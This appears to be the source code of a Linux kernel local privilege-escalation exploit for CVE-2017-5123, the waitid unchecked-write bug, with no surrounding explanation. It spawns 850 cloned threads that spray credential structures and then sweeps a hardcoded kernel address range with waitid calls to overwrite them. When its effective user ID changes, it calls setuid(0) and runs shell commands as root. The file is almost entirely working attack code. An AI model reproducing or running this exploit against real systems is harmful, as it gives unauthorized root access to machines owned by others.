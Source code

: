 ```c
int success_flag=1;
 
void set_cpu_affinity(){
    cpu_set_t mask;
    CPU_ZERO(&mask);
    CPU_SET(0,&mask);
    if (sched_setaffinity(0,sizeof(mask),&mask))
        puts("set single CPU failed");
    return;
}
 
int spray(){
    //open("/proc/jif");
    set_cpu_affinity();
    int fd = open("/proc/jif",O_RDWR);
    close(fd);
    int euid;
    int old = geteuid();
    while(1){
        euid = syscall(__NR_geteuid);
        if(old!=euid){
            printf("[*]success!\n");
            success_flag=0;
            //printf("[*]pid:%d euid:%d uid:%d\n",getpid(),geteuid(),getuid());   
            setuid(0);
            printf("[*]pid:%d euid:%d uid:%d\n",getpid(),geteuid(),getuid());
            system("id");
            system("cat cve-2017-5123");      
        }
        if(!success_flag){
            sleep(100000);
        }
    usleep(100000);
    }
 
    return 0;
}
 
int main(int argc, char **argv){
//    set_cpu_affinity();
    pid_t pid;
    for(int i=0;i<850;i++){
        void *stack=malloc(STACK_SIZE);
        pid = clone(spray,stack,CLONE_VM | CLONE_FS | CLONE_FILES | CLONE_SYSVSEM | SIGCHLD,NULL);
        if(pid==-1){
            perror("[-]clone failed!");
            exit(-1);
        }
    }
 
    size_t start_addr = 0xffff88000d3b0004;
    size_t end_addr =   0xffff88000d3b0ff4;
    size_t inc = 0x10;
    printf("[*]clone 850 over\n");
//    getchar();
    for(size_t address = start_addr;success_flag;address += inc){
        printf("[*]attacking 0x%llx\n",address);
        syscall(SYS_waitid, P_ALL,0,address, WEXITED|WNOHANG|__WNOTHREAD, NULL);
        if(address > end_addr){printf("failed to pwn\n");exit(0);}
        usleep(100000);
    }
    return 0;
}
```